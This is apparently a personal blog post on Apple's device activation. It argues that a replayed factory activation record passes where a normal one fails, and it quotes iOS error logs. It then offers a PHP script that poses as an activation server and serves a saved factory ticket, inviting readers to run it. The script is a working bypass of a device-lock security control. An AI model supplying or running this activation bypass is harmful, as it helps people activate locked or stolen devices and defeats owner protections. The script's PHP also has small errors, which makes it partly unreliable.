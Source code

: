 ```yaml
---
title: The activation paradoxon
published: 2025-06-18
description: Apple's activation mechanism is vulnerable to replay attacks, affected iPhones, iPads, iPods, iWatches
tags: [RE, Hax, Apple, iCloud]
category: Hacking
draft: true
---
```


Read this post on your own risk! The information is based on my own research and my (not-so-good-yet) reverse engineering skills. Thus, this write-up might be incorrect, contains mistakes and turn out partially or completely wrong! Do not trust it blindly and DYOR :\)

---

When it comes to iOS device activation, not all methods are created equal. There are the so called Factory Activation and Albert Activation - both play roles in activating an iPhone e.g. officially or via bypass. While both serve the same fundamental purpose, their security implications vary significantly, particularly when it comes to replay attacks.

In this post, we’ll break down how these activation methods work, why replay attacks are a concern for factory records (but not Albert activations), and what this means for device security. Whether you're a developer, security researcher, or just curious about iOS internals, understanding this "activation paradox" sheds light on Apple's evolving approach to keeping devices secure.

## **Replay attack on albert activation**

When proceeding the normal activation using the default server `https://albert.apple.com/deviceservices/deviceActivation`, we receive an activation record with production signature.

This we can check pretty easy by validating against the known iPhone Activation Certificates which you can find on iOS. These are the typical assigned certificates for the signed components of the record.

- `AccountTokenCertification` -> `iPhoneActivation.pem` (default)
- `AccountTokenSignature` -> `iPhoneActivation.pem` (default)

During the activation, there are performed several checks on several components. For the normal activation, iOS seems to perform more checks than for factory, at least we get the following errors when trying a replay attack:

```
<key>Error</key>
	<string>Failed to activate device. ({
    NSLocalizedDescription = "Failed to activate device.";
    NSUnderlyingError = "Error Domain=com.apple.MobileActivation.ErrorDomain Code=-2 \"Failed to activate device.\" UserInfo={NSLocalizedDescription=Failed to activate device., NSUnderlyingError=0x4ae2e15c0 {Error Domain=com.apple.MobileActivation.ErrorDomain Code=-1 \"Failed to validate activation record with factory certificates.\" UserInfo={NSLocalizedDescription=Failed to validate activation record with factory certificates., NSUnderlyingError=0x4ae2e2790 {Error Domain=com.apple.MobileActivation.ErrorDomain Code=-1 \"Failed to verify activation record certificate.\" UserInfo={NSLocalizedDescription=Failed to verify activation record certificate., NSUnderlyingError=0x4ae2e29a0 {Error Domain=com.apple.MobileActivation.ErrorDomain Code=-1 \"Failed to verify account token signature.\" UserInfo=0x4ae12cac0 (not displayed)}}}}}}";})
    </string>
```

~> `"Failed to verify account token signature."`

or

```
<key>Error</key>
	<string>Failed to activate device. ({
    NSLocalizedDescription = "Failed to activate device.";
    NSUnderlyingError = "Error Domain=com.apple.MobileActivation.ErrorDomain Code=-2 \"Failed to activate device.\" UserInfo={NSLocalizedDescription=Failed to activate device., NSUnderlyingError=0x4ae2e03f0 {Error Domain=com.apple.MobileActivation.ErrorDomain Code=-1 \"Failed to validate activation record with factory certificates.\" UserInfo={NSLocalizedDescription=Failed to validate activation record with factory certificates., NSUnderlyingError=0x4ae2e00f0 {Error Domain=com.apple.MobileActivation.ErrorDomain Code=-1 \"Failed to verify activation record certificate.\" UserInfo={NSLocalizedDescription=Failed to verify activation record certificate., NSUnderlyingError=0x4ae2e15c0 {Error Domain=com.apple.MobileActivation.ErrorDomain Code=-1 \"UCRT public key does not match UIK public key.\" UserInfo=0x4ae12d800 (not displayed)}}}}}}";})
    </string>
```

~> `"UCRT public key does not match UIK public key."`

## **Replay attack on factory activation**

When proceeding the factory activation using a presaved factory record, we get a different result of activation :) The device successfully activates.

Other than the albert activation, the signature of the AccountToken is made via RaptorActivation certificate. When the first activation try fails to validate internally against the iPhoneActivation certificates, it switches to FactoryActivation certificates for validation - and succeeds as the checks performed here are much less than albert.

- `AccountTokenCertification` -> `iPhoneActivation.pem` (default)
- `AccountTokenSignature` -> `RaptorActivation.pem` (*factory*)

If you are wanna try this yourself, just use this basic php script to do so, just paste the components of your factory ticket into the script

```php
<?php

require('CFPropertyList/CFPropertyList.php'); 
require_once('vendor/autoload.php');

$debug=false;
if($debug==true)
{ 
	ini_set('display_errors', 1);
	ini_set('display_startup_errors', 1);
	error_reporting(E_ALL);
}

error_reporting(0);
set_time_limit(0);

if(!isset($_POST['activation-info']) || empty($_POST['activation-info'])) { exit('Method not implemented'); }
if(isset($_POST['activation-info'])) {

    $response =
    '<plist version="1.0">
      <dict>
        <key>'.($deviceClass == "iPhone" ? 'iphone' : 'device').'-activation</key>
        <dict>
          <key>activation-record</key>
          <dict>
            <key>unbrick</key>
            <true/>
            <key>AccountToken</key>
            <data>
            ---AccountToken of your factory ticket---
            </data>
            <key>AccountTokenCertificate</key>
            <data>
            ---AccountTokenCertificate of your factory ticket---
            </data>
            <key>AccountTokenSignature</key>
            <data>
            ---AccountTokenSignature of your factory ticket---
            </data>
            <key>DeviceCertificate</key>
            <data>
            ---DeviceCertificate of your factory ticket---
            </data>
            <key>FairPlayKeyData</key>
            <data>
            ---FairPlayKeyData of your factory ticket---
            </data>
            <key>LDActivationVersion</key>
            <integer>2</integer>
            <key>RegulatoryInfo</key>
            <data>eyJtYW51ZmFjdHVyaW5nRGF0ZSI6bnVsbCwiZWxhYmVsIjp7ImJpcyI6bnVsbCwibWlpdCI6eyJuYWwiOm51bGwsImxhYmVsSWQiOm51bGx9fSwiY291bnRyeU9mT3JpZ2luIjpudWxsfQ==</data>
          </dict>
          <key>show-settings</key>
          <true/>
        </dict>
      </dict>
    </plist>';

    header("ARS: ".base64_encode(hex2bin(hash("sha1", $activation))));
    header('Content-type: application/xml');
    header('Content-Length: '.strlen($response));
    echo $response;

}
```

---

## Disclaimer

This writeup is for **educational purposes only**.

- Do **not** use this for illegal activities.
- Apple may patch this behavior at any time.



© 2025  ~ Hana Kim